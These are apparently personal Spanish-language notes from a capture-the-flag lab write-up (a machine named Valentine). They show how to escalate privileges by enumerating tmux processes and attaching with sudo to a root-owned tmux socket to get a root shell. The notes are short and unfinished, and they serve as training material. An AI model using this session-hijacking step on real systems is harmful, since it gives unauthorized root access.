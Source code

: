 [Articulo que explica la vulnerabilidad](https://int0x33.medium.com/day-69-hijacking-tmux-sessions-2-priv-esc-f05893c4ded0)

# Enumeracion
Listar procesos activos
   ```bash
   ps aux | grep tmux
   ```
   ![[Valentine15.png]]


# Explotacion 
Ejecucion del comando que nos va a dar una shell como si fueramos root
[[ps faux falta termianr]]
   ```bash
   sudo /usr/bin/tmux -S /.devs/dev_sess
   ```




